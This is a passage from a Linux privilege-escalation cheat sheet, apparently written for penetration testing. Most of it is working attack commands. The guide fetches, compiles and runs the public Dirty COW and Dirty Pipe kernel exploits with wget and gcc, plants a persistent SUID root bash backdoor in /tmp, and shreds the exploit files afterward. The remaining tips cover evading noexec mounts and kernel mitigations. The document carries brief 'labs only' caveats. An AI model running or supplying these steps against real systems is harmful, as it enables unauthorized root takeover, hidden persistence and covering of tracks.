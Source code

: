 - Run and validate:
```
./exploit
id; whoami
uname -a
```

- Establish a durable root shell (example SUID bash copy; use only in labs):
```
cp /bin/bash /tmp/bashroot
chmod u+s /tmp/bashroot
# Later: run as any user to get root
/tmp/bashroot -p
```

- Cleanup (revert PoC changes if it modified /etc/passwd):
```
shred -u exploit exploit.c les.sh les2.pl 2>/dev/null || rm -f exploit exploit.c les.sh les2.pl
# If a PoC edited /etc/passwd or other system files, restore backups it created (often *.bak)
```

- Example PoC flows (choose one that matches your kernel/distro):
  - Dirty COW (CVE-2016-5195; many kernels < 4.8.3; vendors backport patches—verify):
```
cd /dev/shm 2>/dev/null || cd /tmp
wget -q https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c -O dirtycow.c
gcc dirtycow.c -pthread -O2 -o dirtycow
./dirtycow
id
```
  - Dirty Pipe (CVE-2022-0847; affects Linux 5.8–5.16.11/5.15.25/5.10.102 before fixes; stable on many distros without backports):
```
cd /dev/shm 2>/dev/null || cd /tmp
wget -q https://raw.githubusercontent.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/main/exploit.c -O dirtypipe.c
gcc dirtypipe.c -O2 -o dirtypipe
./dirtypipe
id
```
Adjust PoCs as needed; prefer reputable sources and read code/README for usage and mitigation handling (SMEP/SMAP bypass, KASLR assumptions, etc.).

# Practical tips
- Prefer stability: Some kernel PoCs can panic the system. Run in screen/tmux and be prepared to reconnect.
- Match more than uname -r: Vendors backport fixes. Verify distro kernel package changelogs and PoC’s detection routines. Ubuntu/Debian kernels often include “-generic/-cloud” variants with backported patches.
- Architecture matters: Compile for the target arch and bitness (getconf LONG_BIT; file /bin/sh). For 32-bit: gcc -m32 … and install gcc-multilib on the attacker.
- Mitigations: Choose PoCs that handle SMEP/SMAP; many modern PoCs disable SMEP via CR4 flipping with ROP/kpti trampolines. KASLR often irrelevant for many LPEs, but check PoC notes.
- Execution locations: If /tmp is noexec, use /dev/shm or /var/tmp. If no outbound access, scp in or host an internal HTTP server.
- Kernel headers typically not required: Most LPE PoCs are userland programs abusing kernel bugs; they rarely need kernel headers on target.
- Container nuance: Containerized targets may restrict some namespace/syscall paths; some kernel bugs still escalate to host if the kernel is shared and vulnerable—exercise extreme caution and follow scope.
- Post-ex: Prefer transient root shells (not file overwrites) in real engagements. In labs, if a PoC modifies /etc/passwd or binaries, document and revert.
- Always read the PoC: Confirm affected versions, required sysctls, and whether it already drops a root shell or requires post-steps.
